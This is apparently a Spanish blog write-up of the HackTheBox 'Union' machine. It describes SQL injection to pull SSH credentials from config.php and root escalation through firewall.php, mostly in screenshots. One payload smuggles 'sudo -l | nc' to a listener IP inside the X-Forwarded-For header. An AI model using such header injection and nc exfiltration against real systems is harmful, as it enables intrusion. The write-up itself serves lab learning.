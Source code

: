 ```yaml
---
layout: single
title: Union - HackTheBox
excerpt: "Exploitamos una inyección SQL para obtener acceso SSH en la máquina Union de HackTheBox. Luego, escalamos privilegios aprovechando un fallo en firewall.php, logrando ejecución como root"
date: 2025-03-30
classes: wide
header:
  teaser: /assets/images/Union/Union.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - HackTheBox
  - Red Team
tags:  
  - CTF
  - SQL Injection
  - Web Exploitation
---
```


![](/assets/images/Union/Union.png){:style="max-width:450px;height:auto;"}

## Resumen

La máquina Union de HackTheBox comienza con un escaneo de puertos, donde encontramos un servicio web vulnerable a SQL Injection. Explotamos esta vulnerabilidad para extraer información de la base de datos y obtener credenciales de acceso por SSH. Una vez dentro, identificamos un archivo firewall.php que ejecuta comandos con sudo sin necesidad de contraseña. Aprovechamos esta configuración para escalar privilegios y obtener acceso como root, logrando la explotación completa de la máquina.

## Reconocimiento

Realizamos un escaneo de puertos con nmap para identificar los servicios disponibles. Y también ejecutamos scripts básicos de reconocimiento con nmap:

![](/assets/images/Union/Reconocimiento-Puertos-Scripts.png)

El servidor expone los siguientes servicios:

- HTTP en el puerto 80

## Página Web

El servicio web en el puerto 80 parece ser una inscripción para UHC:

![](/assets/images/Union/Web.png)

## Shell

En el servicio web, si añadimos cualquier cosa al campo 'Player Elegibility Check' nos saldrá lo siguiente:

![](/assets/images/Union/Web-Test.png)

Si nos dirigimos donde dice 'Complete the challenge here' nos dirigirá aquí:

![](/assets/images/Union/Web-Flag.png)

Nos dice que pongamos la primera bandera, como no tenemos ninguna, vamos a dirigirnos de vuelta al formulario anterior, para comprobar si es vulnerable a inyección SQL:

![](/assets/images/Union/Web-Test-SQLI.png)

Confirmamos la vulnerabilidad a SQLI y procedemos a enumerar las tablas de la base de datos.

![](/assets/images/Union/Tables.png)

Una vez listadas las tablas, vemos que hay dos columnas ('flag' y 'players'), vamos a listar las columnas:

![](/assets/images/Union/Columns.png)

Y listamos el contenido:

![](/assets/images/Union/Columns-Content.png)

Una vez tenemos la 'flag', nos dirigimos a la web, para ponerlo en el formulario donde nos pedía la flag:

![](/assets/images/Union/Open-SSH.png)

Nos dice que a nuestra IP le han dado acceso por SSH al servidor, si realizamos un nuevo escaneo con nmap, vemos que se ha abierto el puerto 22:

![](/assets/images/Union/Nmap-SSH.png)

Como todavía no tenemos credenciales, vamos a buscar archivos php en la web con la herramienta 'wfuzz':

![](/assets/images/Union/Fuzz.png)

El archivo 'config.php' podría contener algo.

Si miramos el contenido del archivo 'config.php' mediante 'SQLI', podemos ver las credenciales para conectarnos vía SSH:

![](/assets/images/Union/Credential-SSH.png)

Nos conectamos:

![](/assets/images/Union/Shell.png)

Y una vez dentro, la bandera 'user' se encuentra en el directorio 'home' del usuario 'uhc':

![](/assets/images/Union/User-Flag.png)

## Escalada de Privilegios

Si nos dirigimos al directorio '/var/www/html/', veremos que existe un archivo llamado 'firewall.php':

![](/assets/images/Union/Firewall-File.png)

Observamos que el usuario 'www-data' ejecuta un comando con 'sudo' a través de la función 'system', lo que permite ejecutar comandos con privilegios elevados.

Analizando el código marcado, nos damos cuenta de que la petición se está realizando mediante la herramienta 'curl', si tratamos de hacer nosotros una petición editando la cabecera, podemos llegar a ejecutar comandos:

![](/assets/images/Union/Curl-Vuln.png)

    -H # Header
    X-FORWARDED-FOR: # Header http
    1.1.1.1 # Ip
    ; # Concatenar
    sudo -l | nc 10.10.16.21 4646 # Comando bash
    ; # Cierre de la concatenación

    -H # Header
    Cookie: PHPSESSID= # Cookie
    p3m9e... # La cookie que nos da la página firewall.php cuando metimos la flag correcta

Como vemos que el usuario 'www-data' tiene permisos '(ALL : ALL) NOPASSWD: ALL', vamos a hacer otra petición para dar permisos 'suid' al binario '/usr/bin/bash', para escalar al usuario privilegiado:

![](/assets/images/Union/Sudo-Bash.png)

Ahora que somos el usuario privilegiado, si nos dirigimos al directorio 'home' del usuario 'root', nos encontraremos con la bandera 'root':

![](/assets/images/Union/Root-Flag.png)

### Conclusión

Esta máquina demuestra la importancia de proteger las aplicaciones web contra inyecciones SQL y de restringir adecuadamente los permisos de ejecución de comandos en entornos con privilegios elevados. También resalta la utilidad de analizar scripts y configuraciones en busca de posibles vectores de escalada de privilegios. En un entorno real, mitigar estas vulnerabilidades evitaría accesos no autorizados y compromisos de seguridad.
